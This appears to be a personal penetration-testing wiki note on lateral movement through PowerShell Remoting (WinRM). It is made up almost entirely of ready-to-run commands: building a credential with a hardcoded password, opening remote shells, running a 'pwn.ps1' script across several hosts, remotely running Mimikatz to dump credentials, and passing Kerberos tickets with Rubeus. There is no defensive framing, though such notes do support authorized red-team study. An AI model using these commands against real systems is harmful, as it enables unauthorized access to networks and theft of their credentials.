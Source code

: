 ```yaml
---
title: PSRemoting Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/winrm]].

Create credential.

~~~ powershell
$c = New-Object System.Management.Automation.PSCredential -ArgumentList ('jdoe', (ConvertTo-SecureString 'passw0rd' -AsPlainText -Force))
~~~

Open interactive shell on remote system.

~~~ powershell
Enter-PSSession -Credential $c -ComputerName srv01.corp.local
~~~

Execute command on multiple systems at once.

~~~ powershell
Invoke-Command -Credential $c -ComputerName srv01.corp.local,srv02.corp.local -ScriptBlock {hostname;whoami;}
~~~

Execute script on multiple systems.

~~~ powershell
Invoke-Command -Credential $c -ComputerName srv01.corp.local,srv01.corp.local -File .\pwn.ps1
~~~

Execute local function on remote system.

~~~ powershell
Import-Module .\mimikatz.ps1
Invoke-Command -Credential $c -ComputerName srv01.corp.local -ScriptBlock ${function:Invoke-Mimikatz} -ArgumentList DumpCreds
~~~

Reuse sessions.

~~~ powershell
$s = New-PSSession -Credential $c -ComputerName srv01.corp.local
Invoke-Command -Session $s -ScriptBlock {hostname;}
Invoke-Command -Session $s -ScriptBlock {whoami;}
~~~

Establish session with Kerberos authentication.

~~~ powershell
$s = New-PSSession -Authentication Kerberos -Computer srv01.corp.local
Invoke-Command -Session $s -ScriptBlock {hostname;whoami;}
~~~

Establish session trough pass the ticket.

~~~ powershell
.\rubeus.exe ptt /ticket:%BASE64KIRBI%
Invoke-Command -ScriptBlock {whoami} -ComputerName srv01.corp.local -Authentication NegotiateWithImplicitCredential
~~~

Copy file.

~~~ powershell
Copy-Item -Path .\local.txt -ToSession $s -Destination C:\Users\jdoe\remote.txt
~~~

> **Note:** PSRemoting seems to be unsupported in Powershell on Linux.

References:

- [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession)
- [Invoke-Command](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command)
